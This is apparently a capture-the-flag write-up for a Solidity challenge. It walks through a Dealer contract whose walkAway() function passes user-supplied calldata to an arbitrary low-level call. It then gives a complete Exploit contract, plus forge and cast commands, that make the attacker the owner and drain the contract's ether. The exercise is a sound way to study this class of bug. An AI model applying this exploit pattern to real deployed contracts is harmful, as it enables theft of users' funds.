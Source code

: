 Here we have 2 source code, one is *Setup.sol* and another one is *Dealer.sol*, in order to make *Setup.sol::isSolved()* returns true, we mush make the baalnce of *Dealer Contract* become 0 and the *owner* is no longer *Setup Contract*.
&nbsp;  
&nbsp;  
```solidity
contract Setup{
    Dealer public dealer;

    constructor() payable{
        dealer = new Dealer();
        dealer.joinGame{value: 50 ether}();
    }

    function isSolved() public view returns(bool){
        return address(dealer).balance == 0 && dealer.owner() != address(this);
    }

}
```
&nbsp;  
based on the inital setup, we know that the current owner is *Setup Contract* and it has 50 Ether. Let's take a tour to the *Dealer Contract* now,
&nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Dealer{
    bool public readyToRig;
    address public owner;
    uint256 public rewardPool;
    mapping(address => uint256) public balanceOf;

    constructor() payable{
        owner = msg.sender;
    }

    function joinGame() public payable{
        require(msg.value >= 5 ether, "Must Deposit Minimum of 5 Ether!");
        balanceOf[msg.sender] += msg.value;
    }

    function bet(uint256 _amount) public{
        require(balanceOf[msg.sender] >= 5 ether, "Need 5 Ether to bet");
        require(_amount >= 2 ether, "Start with 2");
        rewardPool += balanceOf[owner];
        balanceOf[owner] = 0;
        rewardPool += _amount;
        balanceOf[msg.sender] -= _amount;
        readyToRig = true;
    }

    function startRiggedBet() public onlyOwner{
        require(readyToRig == true, "Pool is not filled!");
        balanceOf[owner] += rewardPool;
        rewardPool = 0;
        readyToRig = false;
    }

    function endWholeGame() public onlyOwner{
        uint256 toSend = balanceOf[owner];
        (bool sent, ) = owner.call{value: toSend}("");
        require(sent, "Ending Game Failed!");
    }

    function walkAway(address _to, bytes memory message) public {
        require(readyToRig == true, "You want to wal away empty handed?");
        uint256 leftAmount = balanceOf[msg.sender];
        balanceOf[msg.sender] -= leftAmount;
        (bool sent, ) = _to.call{value: leftAmount}(message);
        require(sent, "You can't run it seems.");
    }

    function changeOwner(address _newOwner) public payable{
        require(msg.sender == address(this), "Only Dealer can change owner");
        owner = _newOwner;
        balanceOf[owner] += msg.value;
    }

    modifier onlyOwner(){
        require(msg.sender == owner, "Only Owner can start bet!");
        _;
    }

    receive() external payable {
        if(msg.value == 5 ether){
            balanceOf[msg.sender] += msg.value;
        }else{
            rewardPool += msg.value;
        }
    }
}
```
&nbsp;  
We can see that it can receive ether with 2 functions, the *joinGame()* and *receive()*, the only difference is when we use joinGame, it require us to send at least 5 Ether, while the receive function has a logic when the amount is exactly 5 Ether only then it will be added to our balance, else it will be added to the rewardPool. &nbsp;  
&nbsp;  
The *bet()* function allow us to put our moneny on the line, while we have the freedom to choose how many money we want to spend, the *owner* seems to go all-in, kinda weird right. Turns out, the next function *startRiggedBet()* will actually make the owner always win since it transfered all the rewardPool to the owner, and after that the owner could call *endWholeGame()* and just get all the money there. &nbsp;  
&nbsp;  
We as a player also have an option, but that only available after we *bet()* some of our money, we can just *walkAway* with the money we have left and leave a message... oh well, we can leave a message that is being handled by *call()*, with that we can actually call *changeOwner()* and make ourselves the *owner*, thic could happened because if we parse a bytes that actually a function call, what's a function call? In Ethereum, they call a function by giving a 4 bytes or what often call function selector or signature, it's the first 4 bytes of *keccak256(functionName(args_type))*. &nbsp;  
&nbsp;  
So here is what are we going to do: &nbsp;  
&nbsp;  
1. We *joingGame()* with 5 Ether
2. We *bet()* 3 Ether
3. We *walkAway()*, current rewardPool is 53 Ether, but we transfering the money to *dealer* by providing his address effectively giving it 2 Ether (our leftAmount) and parse a message containing the call of *changeOwner(address)* with the address pointing to our Exploit Contract
4. The current owner will be our Exploit Contract, we can just *startRiggedBet()*, taking all the rewardPool
5. Transfer all money to our pocket by calling *endWholeGame()

&nbsp;  
The message that we are going to provide will be consisting the btyes of the *changeOwner()* selector and the address of our Exploit contract, it is constructed like this &nbsp;  
&nbsp;  
```test
// Default Construction
[4 bytes - selector] [32 bytes - Data/Args ] [can add more 32 bytes (SLOT) if needed]

// changeOwner(address) - newOwner address
0xa6f9dae1 000000000000000000000000 00648ca25a2e54b636c22cd5e1df72da69570aa2
|selector| |   padding 12 bytes   | |     newOwner Address - 20 bytes      |
|4 bytes | |-------------------------32 bytes / 1 SLOT---------------------|
```
&nbsp;  
How do we get *0xa6f9dae1*? Well we can use the build in function of *abi.encodeWithSignature(funcName(args-type), args-value)*, in our contract to parse this. OKay now that we understand what we need to do and how to do it, here is the full exploit to finally solve the lab. &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Dealer.sol";

contract Exploit{
    Dealer public dealer;
    Setup public setup;

    constructor(address _setup) payable{
        setup = Setup(_setup);
        dealer = Dealer(setup.dealer());
    } 

    function exploit() public{
        dealer.joinGame{value: 5 ether}();
        dealer.bet(3 ether);
        dealer.walkAway(address(dealer), abi.encodeWithSignature("changeOwner(address)",address(this)));
        dealer.startRiggedBet();
        dealer.endWholeGame();
    }

    receive() external payable { }

}
```
&nbsp;  
We just need to deploy the solver and give it 5 Ether to execute the *joinGame*, here is how you can do it. &nbsp;  
&nbsp;  
```bash
// deploy the contract
forge create src/silent-dealer/$EXPLOIT_SOL:$EXPLOIT_NAME -r $RPC --private-key $PK --constructor-args $SETUP_ADDR --value 5ether

// Launch the Exploit
cast send -r $RPC --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Now you should've solved the lab!